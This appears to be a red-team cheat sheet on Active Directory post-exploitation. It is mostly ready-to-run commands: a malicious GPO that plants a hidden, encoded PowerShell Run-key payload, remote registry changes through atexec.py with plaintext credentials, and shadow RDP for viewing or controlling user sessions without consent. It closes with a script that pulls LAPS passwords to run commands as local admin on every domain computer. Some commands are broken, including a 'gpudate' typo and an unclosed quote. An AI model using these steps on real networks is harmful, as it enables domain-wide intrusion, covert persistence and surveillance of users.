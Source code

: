 ```yaml
---
description: Post Exploitation in Active Directory
---
```


# Post Exploitation




## GPOs

Identify the OU containing the `VICTIM-PC` object:

```
PS > Add-WindowsFeature -Name "RSAT-AD-PowerShell"
PS > Import-Module ActiveDirectory
PS > Get-ADComputer -Identity VICTIM-PC | select DistinguishedName
```

Create a GPO using GPMC:

1. Run > `gpmc.msc`.
2. Create a new GPO in the OU in which `VICTIM-PC` resides.
3. Remove `Authenticated Users` from **Security Filtering** and add `VICTIM-PC` there.
4. Link it to the OU and edit it.

Usually, it takes between 90 and 120 minutes for a new GPO to be applied. Force it with:

```
Cmd > gpudate.exe /force
```

{% tabs %}
{% tab title="Enable RDP" %}
```
<POLICY_NAME>
  Computer Configuration
    Policies
      Administrative Templates
        Windows Components
          Remote Desktop Services
            Remote Desktop Session Host
              Connections
                Allow users to connect remotely using Remote Desktop Services
                  Enabled, OK
```
{% endtab %}
{% tab title="Allow RDP Connections" %}
```
<POLICY_NAME>
  Computer Configuration
    Policies
      Windows Settings
        Security Settings
          Windows Defender Firewall with Advanced Security
            Inbound Rules
              (right-click) New Rule
                Predefined (Remote Desktop)
		          Allow the connection, Finish
```
{% endtab %}
{% tab title="Edit Local Administrators Membership" %}
```
<POLICY_NAME>
  Computer Configuration
    Preferences
      Control Panel Settings
        Local Users and Groups
          (right-click) New > Local Group
            Group name (...)
              Members (Add), OK
                Apply, OK
```
{% endtab %}
{% tab title="Enable Shadow RDP" %}
```
<POLICY_NAME>
  Computer Configuration
    Policies
      Administrative Templates
        Windows Components
          Remote Desktop Services
            Remote Desktop Session Host
              Connections
                Set rules for remote control of Terminal Services user sessions
                  Enabled + Options (Full Control without user's permission), OK
```
{% endtab %}
{% tab title="Immediate Scheduled Task" %}
```
<POLICY_NAME>
  Computer Configuration
    Policies
      Preferences
        Control Panel Settings
          Scheduled Tasks
            (right-click) New > Immediate Task (At least Windows 7)
```
{% endtab %}
{% endtabs %}



### Reach a Locked-down Domain Computer

- [How to Hack Like a Pornstar / Best hacking books for aspiring hackers - Real life hacking scenarios](https://www.sparcflow.com/best-hacking-books/)

If you find yourself in a situation when you're already a domain admin and you need to access a locked-down domain computer (no RDP/WinRM, no SMB shares, no owned local admins, etc.), creating an evil GPO may help.

Create a GPO using PowerShell (will trigger a command when the victim user logs in):

```
PS > Add-WindowsFeature -Name "GPMC"
PS > Import-Module GroupPolicy
PS > New-GPO -Name EvilPolicy -Domain megacorp.local -Server DC01.megacorp.local
PS > Set-GPPermission -Name EvilPolicy -Replace -PermissionLevel GpoApply -TargetName "victim.user" -TargetType User
PS > Set-GPPermission -Name EvilPolicy -Replace -PermissionLevel GpoApply -TargetName "VICTIM-PC" -TargetType Computer
PS > Set-GPPermission -Name EvilPolicy -PermissionLevel None -TargetName "Authenticated Users" -TargetType Group
PS > New-GPLink -Name EvilPolicy -Domain megacorp.local -Target "<TARGET_OU>" -Order 1 -Enforced Yes
PS > Set-GPRegistryValue -Name EvilPolicy -Key "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName MSstart -Type String -Value "powershell.exe -NoP -sta -NonI -W Hidden -Exec Bypass -Enc <BASE64_CMD>"
```

Enable ADMIN shares manually by restoring [AutoShareServer](https://learn.microsoft.com/ru-ru/troubleshoot/windows-server/networking/remove-administrative-shares):

```
$ atexec.py -nooutput megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" /v AutoShareServer /t REG_DWORD /d 1 /f && net stop server && net start server'
```



### Shadow RDP

- [https://swarm.ptsecurity.com/remote-desktop-services-shadowing/](https://swarm.ptsecurity.com/remote-desktop-services-shadowing/)
- [https://winitpro.ru/index.php/2014/02/12/rds-shadow-v-windows-2012-r2/](https://winitpro.ru/index.php/2014/02/12/rds-shadow-v-windows-2012-r2/)
- [https://darkbyte.net/autordpwn-la-guia-definitiva/](https://darkbyte.net/autordpwn-la-guia-definitiva/)
- [https://github.com/JoelGMSec/AutoRDPwn](https://github.com/JoelGMSec/AutoRDPwn)

Enable Shadow RDP via group policies or by manually setting the registry and connect to an active session on the target machine.

Enable:

```
Cmd > reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v Shadow /t REG_DWORD /d 4
Cmd > netsh advfirewall firewall set rule name="Remote Desktop - Shadow (TCP-In)
Cmd > netsh advfirewall firewall set rule name="File and Printer Sharing (SMB-In)" new enable=yes
PS > New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" -Name "Shadow" -PropertyType "DWORD" -Value 4
PS > Enable-NetFirewallRule RemoteDesktop-Shadow-In-TCP
PS > Enable-NetFirewallRule FPS-SMB-In-TCP*
```

Shadow the RDP:

```
Cmd > qwinsta.exe /server:192.168.1.11
Cmd > mstsc.exe /v:192.168.1.11 /shadow:<ID> /noConsentPrompt [/control]
```

Cleanup:

```
Cmd > reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v Shadow /f
Cmd > netsh advfirewall firewall set rule name="Remote Desktop - Shadow (TCP-In)" new enable=no
Cmd > netsh advfirewall firewall set rule name="File and Printer Sharing (SMB-In)" new enable=no
PS > Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" -Name "Shadow"
PS > Disable-NetFirewallRule RemoteDesktop-Shadow-In-TCP
PS > Disable-NetFirewallRule FPS-SMB-In-TCP*
```




## Run on Domain Computers

* [How to Hack Like a Pornstar / Best hacking books for aspiring hackers - Real life hacking scenarios](https://www.sparcflow.com/best-hacking-books/)

An example PowerShell script to execute commands as a local admin on all domain computers pulling LAPS passwords automatically:

{% code title="ADComputersCmd.ps1" %}
```powershell
 # Save with Encoding "UTF-8 with BOM"

[System.Console]::OutputEncoding = [System.Text.Encoding]::UTF8
$ErrorActionPreference = "Stop"

$command = '[System.Console]::OutputEncoding = [System.Text.Encoding]::UTF8; '
$command += 'whoami > C:\Windows\Temp\whoami.txt 2>&1'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd | ? {$_.name -ne $(hostname)} | select name,ms-Mcs-AdmPwd | ForEach-Object {
	$comp = $_."name"
	$pass = $_."ms-Mcs-AdmPwd"

	if (Test-Connection -BufferSize 32 -Count 1 -ComputerName $comp -Quiet) {
		try {
			$cred = New-Object System.Management.Automation.PSCredential("$comp\administrator", $(ConvertTo-SecureString $pass -AsPlainText -Force))
			$proc = Invoke-WmiMethod Win32_Process -Name Create -ArgumentList ("powershell -enc $encodedCommand") -ComputerName $comp -Credential $cred

			do {
				Write-Host -ForegroundColor Green "[*] Waiting for script to finish on $comp"
				Start-Sleep -Seconds 2
			} until ((Get-WmiObject -Class Win32_Process -Filter "ProcessId=$proc.ProcessId" -ComputerName $comp -Credential $cred | where {$_.ProcessId -eq $proc.ProcessId}).ProcessId -eq $null)

			net use "\\$comp" /user:administrator $pass 2>&1 | Out-Null
			Get-Content "\\$comp\C$\Windows\Temp\whoami.txt"
			Remove-Item "\\$comp\C$\Windows\Temp\whoami.txt" -Force
			net use "\\$comp" /delete 2>&1 | Out-Null
		}
		catch {
			Write-Host -ForegroundColor Red "[-] Connection failure: $comp"
		}
	}
	else {
		Write-Host -ForegroundColor Yellow "[!] Connection timed out: $comp"
	}
}
```
{% endcode %}
